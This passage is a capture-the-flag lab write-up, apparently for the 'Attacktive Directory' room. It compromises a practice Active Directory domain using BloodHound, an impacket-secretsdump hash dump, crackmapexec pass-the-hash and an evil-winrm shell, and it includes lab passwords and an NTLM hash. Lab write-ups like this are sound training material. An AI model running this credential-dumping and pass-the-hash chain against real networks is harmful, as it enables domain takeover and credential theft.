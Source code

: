 ## Domain Admin (a-spooks) - Secretsdump
1. Look for privilege escalation path w/ bloodhound
	```
	/usr/bin/neo4j start
	bloodhound-python -u backup -p backup2517860 -ns $ip -d spookysec.local -c All --zip
	```
	```
	# More complete syntax
	bloodhound-python -c All -u 'svc-admin' -p 'management2005' -gc 'ATTACKTIVEDIREC.spookysec.local' -dc 'AttacktiveDirectory.spookysec.local' -d 'spookysec.local' -ns $ip --zip
	```
	![]({{ page.img_path }}Pasted%20image%2020220219233046.png)
	- Both command works, use 1 only
2. Bloodhound Analysis
	- Setup
	![]({{ page.img_path }}Pasted%20image%2020220219225605.png)
	- Results:
		![]({{ page.img_path }}Pasted%20image%2020220219203013.png)
		![]({{ page.img_path }}Pasted%20image%2020220219225659.png)
3. User backup@spookysec.local has `GenericAll` over the domain controller, allowing us to dump hashes on domain w/ secretsdump
	```
	┌──(root💀kali)-[~/tryhackme/attacktivedirect/10.10.184.179/exploit/bloodhound]
	└─# impacket-secretsdump 'spookysec.local/backup@10.10.58.30' -just-dc -outputfile secrets_dump_hash.txt
	```
	![]({{ page.img_path }}Pasted%20image%2020220219233158.png)
4. Extract only NTLM hash
	```
	cat secrets_dump_hash.txt.ntds | cut -d ':' -f4
	```
5. Check if we can access SMB/WinRM w/ a-spooks:0e0363213e37b94221497260b0bcb4fc
	```
	crackmapexec smb/winrm $ip -u 'a-spooks' -H '0e0363213e37b94221497260b0bcb4fc'
	```
	![]({{ page.img_path }}Pasted%20image%2020220219213031.png)
6. Access via evil-winrm to obtain flags
	```
	evil-winrm -u 'a-spooks' -H '0e0363213e37b94221497260b0bcb4fc' -i $ip
	```
	![]({{ page.img_path }}Pasted%20image%2020220219212526.png)
	![]({{ page.img_path }}Pasted%20image%2020220219213758.png)
7. Root Flag
	![]({{ page.img_path }}Pasted%20image%2020220220000101.png)
	